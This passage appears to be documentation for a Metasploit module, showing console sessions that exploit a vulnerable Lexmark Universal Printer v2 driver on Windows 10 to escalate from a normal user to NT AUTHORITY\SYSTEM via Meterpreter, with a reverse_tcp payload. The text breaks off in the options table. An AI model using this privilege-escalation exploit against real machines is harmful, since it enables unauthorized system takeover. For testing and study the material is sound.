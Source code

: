 ```
[*] The user selected driver was in the driver store
[!] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
[*] Adding printer dgvUKSrm...
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Meterpreter session 2 opened (10.0.0.9:1271 -> 10.0.0.8:51830) at 2021-08-10 18:09:29 -0400
[*] Deleting printer dgvUKSrm
[*] Meterpreter session 3 opened (10.0.0.9:1271 -> 10.0.0.8:51831) at 2021-08-10 18:09:31 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Lexmark Universal Printer v2 - version 2.10.0.5 On Windows 10 v1903
```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 192.168.224.194:4444
[*] Sending stage (200262 bytes) to 192.168.224.194
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.224.194:4444) at 2021-08-11 14:09:19 -0500

meterpreter > getuid
Server username: DESKTOP-O7MJD36\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/lexmark_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > show options

Module options (exploit/windows/local/lexmark_driver_privesc):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   DRIVERNAME                   no        The name of the Lexmark driver to exploit
   SESSION                      yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
```